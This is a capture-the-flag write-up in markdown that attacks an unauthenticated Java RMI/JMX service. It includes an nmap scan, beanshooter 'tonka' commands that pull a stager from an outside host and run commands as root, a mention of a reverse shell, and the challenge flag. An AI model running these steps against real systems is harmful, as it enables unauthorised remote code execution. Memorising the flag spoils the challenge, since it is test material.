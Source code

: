 # Nmap

After a quick nmap scan, there is a [Java RMI](https://en.wikipedia.org/wiki/Java_remote_method_invocation) server running on the port.

```bash
nmap -Pn -sV -p 9010 10.10.8.11
```

```
PORT     STATE SERVICE  VERSION
9010/tcp open  java-rmi Java RMI
```

# Beanshooter

The [Beanshooter](https://github.com/qtc-de/beanshooter) tool can be used. 

There is not even authentication on the server.

![](screenshots/1.png)

With the `tonka` module code can be invoked directly, there is no need for manual MBean component creation.

```bash
java -jar /tmp/beanshooter.jar tonka deploy 10.10.8.11 9010 --stager-url http://10.8.0.15:8000
java -jar /tmp/beanshooter.jar tonka status 10.10.8.11 9010
java -jar /tmp/beanshooter.jar tonka exec 10.10.8.11 9010 id
# To remove after we finished
java -jar /tmp/beanshooter.jar undeploy 10.10.8.11 9010 MLetTonkaBean:name=TonkaBean,id=1
```

![](screenshots/2.png)

The service is running as root. Our favourite reverse shell can be used to look around.

![](screenshots/3.png)

# Flag
{HSCSC}-R0o7$Fl@g_f0r-Pr!nces5

# Spoiler
There is a [boss_note.txt](workdir/boss_note.txt) file with credentials.

![](screenshots/4.png)